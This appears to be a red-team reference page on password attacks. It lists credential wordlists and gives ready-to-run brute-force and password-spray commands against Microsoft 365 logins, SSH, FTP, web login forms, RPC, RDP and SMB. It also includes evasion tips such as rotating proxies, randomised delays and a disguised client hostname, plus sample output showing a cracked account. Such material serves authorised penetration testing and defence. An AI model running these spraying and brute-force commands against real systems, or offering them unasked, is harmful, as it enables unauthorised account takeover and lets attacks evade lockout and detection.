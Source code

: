 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# Passwords and Credentials
### References
* <details><summary>References (Click to expand)</summary><p>

### Reconnaissance

* [Gather Credentials TTP](TTP/T1589_Gather_Victim_Identity_Information/001_Credentials/T1589.001.md)

### Wordlists
* <details><summary>Default Credentials (Click to expand)</summary><p>
	* [https://github.com/ihebski/DefaultCreds-cheat-sheet](https://github.com/ihebski/DefaultCreds-cheat-sheet)
	* Seclists List of Default Credential Files -<br />[https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials)
	* Tomcat
		* [https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown)

### Default Accounts, Credentials
* Default Accounts, Credentials ([TTP](TTP/T1078_Valid_Accounts/001_Default_Accounts/T1078.001.md))
* Guessable ([TTP](TTP/T1110_Brute_Force/001_Password_Guessing/T1110.001.md))
* Forged ([TTP](TTP/T1606_Forge_Web_Credentials/T1606.md))
* Credentials in Files ([TTP](TTP/T1552_Unsecured_Credentials/001_Credentials_In_Files/T1552.001.md))

### Bruteforce, Password Spray ([`Brute Force - Password Spraying` TTP](TTP/T1110_Brute_Force/003_Password_Spraying/T1110.003.md))
* External Proxies
	* Overview
		* When spraying, it's easy for your source to be blocked. Proxies help prevent blocking
	* Tools
		* trevorproxy [https://github.com/blacklanternsecurity/trevorproxy](https://github.com/blacklanternsecurity/trevorproxy)
		* fireprox [https://github.com/ustayready/fireprox](https://github.com/ustayready/fireprox)
* Email
	* Microsoft Outlook (MSOL)
		* <details><summary>Recommended: Trevorspray (Click to expand) -<br />[https://github.com/blacklanternsecurity/TREVORspray](https://github.com/blacklanternsecurity/TREVORspray)</summary><p>
			* Overview
				* Automatically uses trevorproxy
			* Examples
				* Collect domain public endpoint information

						trevorspray.py --recon <public_domain_name.tld>
				* Spray password list against discovered usernames

						trevorspray.py -e emails.txt -p <Fall2021!> --url <https://login.windows.net/b439d764-cafe-babe-ac05-2e37deadbeef/oauth2/token>
					* `--delay <minutes>` - Set interval between attempts
		* PowerShell
			* <details><summary>drafthack GitHub: MSOL Spray (Click to expand) -<br />[https://github.com/dafthack/MSOLSpray](https://github.com/dafthack/MSOLSpray)</summary><p>
				* Overview
					* Open a PowerShell terminal with the command: `powershell.exe -exec bypass`
				* Examples

						Invoke-MSOLSpray -UserList .\userlist.txt -Password Winter2020
* SSH
	* <details><summary>hydra (Click to expand)</summary><p>
		* SSH 1

				hydra -l <username> -p <password> ssh://ip_address:22
		* SSH 2

				hydra -l <username> -P <password_list> -t <threads> <ip_address> ssh -s 22
	* <details><summary>Patator (Click to expand)</summary><p>
		* Example

				patator ssh_login host=<ip_address> port=<port> user=<username> password=FILE0 0=<password_wordlist> persistent=0 -x ignore:mesg='Authentication failed'
			* `persistent=0` - slower, but fewer false positives
			* `-x` - optional but supresses error messages.
* FTP
	* <details><summary>ncrack (Click to expand) -<br />([https://nmap.org/ncrack/](https://nmap.org/ncrack/), [https://github.com/nmap/ncrack](https://github.com/nmap/ncrack))</summary><p>
		* References
			* ncrack man page -<br />[https://nmap.org/ncrack/man.html](https://nmap.org/ncrack/man.html)
		* Parameters
			* Supported Protocols (specified via `<protocol>`):
				* SSH
				* RDP
				* FTP
				* Telnet
				* HTTP(S)
				* POP3(S)
				* IMAP
				* SMB
				* VNC
				* SIP Redis
				* PostgreSQL
				* MySQL
				* MSSQL
				* MongoDB
				* Cassandra
				* WinRM
				* OWA
		* Examples
			* Specify one protocol for all targets

					ncrack -u <username> -P <password_list_file> -p <protocol> <ip_address>

			* Specify protocol and port per target

					ncrack --user <username> -P <password_list_file> <protocol>://<ip_address>:<port>
			* Multiple Targets

					ncrack domain.local:21 ssh://10.10.*.*:1234 ftp://<ip_address>
* HTTP/S
	* Burpsuite's Intruder ([Burpsuite Tool Guide](Testaments_and_Books/Redvelations/Tools/Web/Burpsuite/burpsuite.md))
	* <details><summary>Patator (Click to expand)</summary><p>
		* Examples
			* Example 1

					patator.py http_fuzz url=https://gateway.example.com/oab/ user_pass=FILE0:FILE1 0=logins.txt 1=passwords.txt timeout=1 --max-retries=0 auth_type=ntlm 2>&1 | tee -a log
	* <details><summary>Hydra (Click to expand)</summary><p>
		* Parameters
			* `S` - https secure connection
			* `l` - "login" name
			* `P` - password wordlist
			* `p` - password
		* Examples
			* Example 1

					hydra -P <wordlist> -S -t  25 -l <username> "https-form-post://<ip_address>/index.php:password=^PASS^&login=Log+In&proc_login=true:incorrect password"
			* Example 2

					hydra -l admin -p /usr/share/wordlists/seclists/Passwords/10k_most_common.txt <ip_address> http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid" -t 64
			* Example 3

					hydra -P <wordlist> -S -t  25 -l <username> "https-form-post://10.10.10.43/db/index.php:password=^PASS^&login=Log+In&proc_login=true:incorrect password"
* RPC
	* <details><summary>rpcclient (Click to expand)</summary><p>
		* Example 1

				for user in $(cat users.txt); do password=Password1; echo -n "$user:$password:" && rpcclient -U "$user%$password" -c "getusername;quit" evilcorp.local; done | tee -a spray.log | grep -vi failure
			* NOTE: This sometimes reports "`NT_STATUS_LOGON_FAILURE`" even with a correct password!
		* Example 2: More stealthy (shuffles usernames & sleeps randomly)

			for user in $(cat users.txt | shuf); do password=Password1; echo -n "$user:$password:" && rpcclient -U "$user%$password" -c "getusername;quit" evilcorp.local; sleep $(($RANDOM % 10)); done
* RDP
	* <details><summary>xfreerdp (Click to expand)</summary><p>

			for user in $(cat users.txt); do password=Password1; echo -n "$user:$password:" xfreerdp +auth-only /cert-ignore /client-hostname:inconspicuous "/u:$user" "/p:$password" /v:dc01.evilcorp.local | tee -a log.txt | grep -o LOGON_FAILURE || echo SUCCESS; done
	* <details><summary>ncrack (Click to expand) -<br />([https://nmap.org/ncrack/](https://nmap.org/ncrack/), [https://github.com/nmap/ncrack](https://github.com/nmap/ncrack))</summary><p>
		* References
			* ncrack man page -<br />[https://nmap.org/ncrack/man.html](https://nmap.org/ncrack/man.html)
		* Parameters
			* Supported Protocols (specified via `<protocol>`):
				* SSH
				* RDP
				* FTP
				* Telnet
				* HTTP(S)
				* POP3(S)
				* IMAP
				* SMB
				* VNC
				* SIP Redis
				* PostgreSQL
				* MySQL
				* MSSQL
				* MongoDB
				* Cassandra
				* WinRM
				* OWA
		* Examples
			* Specify one protocol for all targets

					ncrack -u <username> -P <password_list_file> -p <protocol> <ip_address>

			* Specify protocol and port per target

					ncrack --user <username> -P <password_list_file> <protocol>://<ip_address>:<port>
			* Multiple Targets

					ncrack domain.local:21 ssh://10.10.*.*:1234 ftp://<ip_address>
* SMB
	* <details><summary>crackmapexec (Click to expand) -<br />([crackmapexec Tool Guide](Testaments_and_Books/Redvelations/Tools/Active_Directory_and_Windows/CrackMapExec.md))</summary><p>

			crackmapexec -t 1 smb 10.0.0.2 -u users.txt -p Password1 --ufail-limit 1 --continue-on-success
		* Example Output

				$ cme -t 1 smb 10.0.0.2 -u users.txt -p Password1 --ufail-limit 1 --continue-on-success
				SMB         10.0.0.2      445    DC1              [*] Windows Server 2016 Standard 14393 x64 (name:DC1) (domain:EVILCORP) (signing:True) (SMBv1:True)
				SMB         10.0.0.2      445    DC1              [-] EVILCORP\asdf1:Password1 STATUS_LOGON_FAILURE 
				SMB         10.0.0.2      445    DC1              [-] EVILCORP\asdf2:Password1 STATUS_LOGON_FAILURE 
				SMB         10.0.0.2      445    DC1              [-] EVILCORP\asdf3:Password1 STATUS_LOGON_FAILURE 
				SMB         10.0.0.2      445    DC1              [+] EVILCORP\bob:Password1 
				SMB         10.0.0.2      445    DC1              [-] EVILCORP\asdf4:Password1 STATUS_LOGON_FAILURE 
				SMB         10.0.0.2      445    DC1              [-] EVILCORP\asdf5:Password1 STATUS_LOGON_FAILURE 
				SMB         10.0.0.2      445    DC1              [-] EVILCORP\asdf10:Password1 STATUS_LOGON_FAILURE 


### Needs Research
* <details><summary>Finger (Click to expand)</summary><p>

		finger 'a b c d e f g h' @example.com
		finger admin@example.com
		finger user@example.com
		finger 0@example.com
		finger .@example.com
		finger **@example.com
		finger test@example.com
		finger @example.com